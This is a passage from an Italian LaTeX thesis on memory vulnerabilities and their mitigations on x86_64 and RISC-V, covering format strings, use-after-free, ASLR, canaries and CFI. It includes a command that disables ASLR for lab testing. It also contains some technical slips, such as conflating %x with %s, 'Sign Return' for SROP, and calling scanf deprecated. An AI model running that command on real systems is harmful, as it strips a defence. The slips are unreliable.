\begin{itemize}
    \item \%x Per leggere dati dallo stack
    \item \%s Per leggere stringhe
\end{itemize}

Nello specifico, per ogni each \%x inserito nel payload la funzione \textit{printf()} leggerà un numero dallo stack, convertendolo ad indirizzo e stamperà il contenuto dell'indirizzo come stringa. È facile capire che una vulnerabilità del genere permette di leggere aree di memorie a runtime che altrimenti non sarebbe possibile leggere. 


\subsubsection*{Use-After-Free}
\addcontentsline{toc}{subsection}{Use-After-Free}

La vulnerabilità Use-After-Free \cite{Kaspersky} è dovuta all'utilizzo di aree di memoria su cui precedentemente è stata usata la funzione \textit{free()} per deallocare variabili o strutture dati salvate.\\
L'utilizzo dell'area di memoria liberata è possibile perché la \textbf{free()} opera sulla memoria referenziata dal puntatore e non sul puntatore stesso.\\
I puntatori che puntano ad aree libere di memoria vengono comunemente chiamati ``dangling pointers". Avendo accesso ad un ulteriore puntatore che punta alla stessa area di memoria precedentemente allocata, un attaccante può leggere informazioni sensibili dalla memoria heap, come mostrato in figura \ref{fig:useafterfree}.\\
Questo tipo di vulnerabilità è stata sfruttata in varie occasioni, come ad esempio nella CVE-2024-5157 \cite{ChromiumCVE} che riguarda il browser open source Chromium.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/use-after-free.png}
    \caption{Use After Free Attack}
    \label{fig:useafterfree}
\end{figure}
\FloatBarrier
\vspace{1cm}

\subsection*{Mitigation}
\addcontentsline{toc}{section}{Mitigation}

Nel corso del tempo è stato necessario implementare le mitigation per ridurre superficie di attacco e potenza degli attacchi fermando un buffer overflow ancora prima che si propaghi nello stack. Questi rimedi coprono le spalle al programmatore nel momento in cui introduce per errore una vulnerabilità nel codice, arginando quello che potrebbe fare un attaccante.\\
\newline
Si è già introdotta una protezione come NX bit che causa uno stack W$\oplus$X, ma si è potuto constatare che sono limiti bypassabili tramite attacchi ROP più complessi.

\subsubsection*{Address space layout randomization (ALSR)}
\addcontentsline{toc}{subsection}{Address space layout randomization (ALSR)}
L'ALSR è una tecnica di difesa con la quale si introduce la randomizzazione degli indirizzi delle più importanti funzioni di libreria e aree di memoria di particolare interesse. In questo modo l'attaccante non riesce a sapere a priori gli indirizzi della \textit{libc} e non potrà fare attacchi come \textit{re2libc} o banalmente non potrà sfruttare normali funzioni di libreria tipicamente caricate ad indirizzi statici.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/alsr.jpg}
    \caption{Stack e ASLR}
\end{figure}
\FloatBarrier
\vspace{1cm}
Un attaccante che dispone di molte risorse di calcolo può utilizzare tecniche di forza bruta per cercare indovinare dove l'ALSR ha piazzato i nuovi indirizzi di \textit{libc}. La metodologia bruteforce porta però via molto tempo e non è ovviamente sempre efficace, quindi questa tecnica di difesa può considerarsi valida anche per gli attacchi più moderni. Sia per x86\_64 che per RISC-V l'ALSR fornisce le adeguate protezioni. In aggiunta, nei sistemi RISC-V è difficile trovare grande capacità di calcolo e per questo un attacco bruteforce su questi sistemi risulterbbe ancora meno efficace. Diversamente sarebbe nel caso in cui l'architettura venga emulata tramite \textit{QEMU} \cite{QemuRISCV} per RISC-V o altri virtualizzatori.
\newline
A scopo di test nei programmi vulnerabili creati per questa tesi, si è momentaneamente disabilitato l'ALSR tramite la seguente direttiva al kernel 
\begin{minted}{c}
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
\end{minted}
\subsubsection*{Canaries}
\addcontentsline{toc}{subsection}{Canaries}
Gli stack canary o canary words sono delle aree di memoria che sono poste dopo i buffer nello stack e servono per monitorare che non si ecceda il buffer e si vada in overflow.\\
In caso di overflow il canary fallisce la propria validazione e notifica l'esecuzione del programma il quale si ferma.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/canary.png}
    \caption{Canary in azione nello stack}
\end{figure}
\FloatBarrier
\vspace{1cm}
Questo metodo è valido per evitare e controllare i buffer overflow ed è stato disabilitato nei test fatti su RISC-V per facilitare lo studio delle vulnerabilità. Anche in questo caso data una grande potenza di calcolo è possibile fare attacchi a forza bruta per cercare di bypassare i canary.
\subsubsection*{Stack-smashing protection}
\addcontentsline{toc}{subsection}{Stack-smashing protection}
La stack protection è una mitigazione che si occupa di capire se lo stack è stato manomesso o meno. \\
\newline
Di default in alcuni compilatori (ad esempio GCC) è disattivata di default, anche se in alcune distribuzioni Linux è attiva una patch per attivarla per motivi di sicurezza. Lo stack protection causa un po' di overhead in esecuzione del programma sia in performance sia in spazio fisico dato che i programmi occupano maggiore spazio su disco.\\
\newline
Nel pratico, lo stack protection utilizza i canary per fare controlli nello stack fornendosi di prologo ed epilogo delle funzioni.
\subsubsection*{Mitigazioni ROP}
\addcontentsline{toc}{subsection}{Mitigazioni ROP}
Oltre a queste mitigazioni, a causa della potenza delle ROP, sono state create protezioni ad-hoc per gli attacchi di return oriented programming che si basano su controllo dell'integrità di flusso, conosciuta come CFI. Questi algoritmi controllano che il risultato dei return del codice macchina coincidano con quelli che il programma realmente dovrebbe fare. Anche in questo caso esistono delle contro mitigazioni che verranno citate sotto brevemente.
\begin{itemize}
    \item BOP: Block Oriented Programming in cui si utilizzano istruzioni a più alto livello
    \item JOP: Jump Oriented Programming in cui si utilizzano salti indiretti invece dei return su cui viene effettuato il controllo di flusso
    \item SROP Sign Return Oriented Programming in cui viene usata una systemcall signreturn \cite{man7sigret} invece della return
    \item DOP Data Oriented Programming in cui viene manomesso il dato sullo stack senza manomettere il flusso di esecuzione e lasciando intatti i return
\end{itemize}
\subsubsection*{Secure code}
\addcontentsline{toc}{subsection}{Secure code}
Scrivere codice sicuro rimarrà sempre la mitigation più efficace per gli attacchi buffer overflow o attacchi generali alla memoria. Questo può essere evitato mettendo controlli sulle lunghezze delle stringhe, sanificando gli input e controllando l'esecuzione del programma in determinati punti.\\
L'utilizzo di alcune funzioni insicure come la \textit{strcpy()}, la \textit{gets()} o la \textit{scanf()} è altamente sconsigliato. queste funzioni sono infatti state deprecate e il programmatore che le utilizza verrà notificato dal compilatore a compile time in caso siano implementate nel codice.

